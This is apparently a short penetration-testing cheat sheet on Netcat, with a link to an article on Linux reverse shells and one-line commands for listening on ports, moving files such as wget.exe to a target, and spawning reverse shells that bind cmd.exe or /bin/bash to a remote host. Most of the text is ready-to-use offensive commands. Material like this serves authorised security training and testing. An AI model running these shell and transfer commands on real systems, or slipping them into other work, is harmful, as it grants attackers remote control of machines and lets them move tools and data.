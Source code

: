 ## Netcat

#### Useful Links

[Linux Reverse Shells](https://www.lanmaster53.com/2011/05/27/7-linux-shells-using-built-in-tools/)

#### Read and write TCP and UDP Packets

##### Connect to a POP3 mail server  
`nc -nv $ip 110`

##### Listen on TCP/UDP port  
`nc -nlvp 4444`

##### Connect to a netcat port  
`nc -nv $ip 4444`

##### Send a file using netcat  
`nc -nv $ip 4444 &lt; /usr/share/windows-binaries/wget.exe`

##### Receive a file using netcat  
`nc -nlvp 4444 &gt; incoming.exe`

##### Create a reverse shell with Ncat using cmd.exe on Windows  
`nc -nlvp 4444 -e cmd.exe`

##### Create a reverse shell with Ncat using bash on Linux  
`nc -nv $ip 4444 -e /bin/bash`
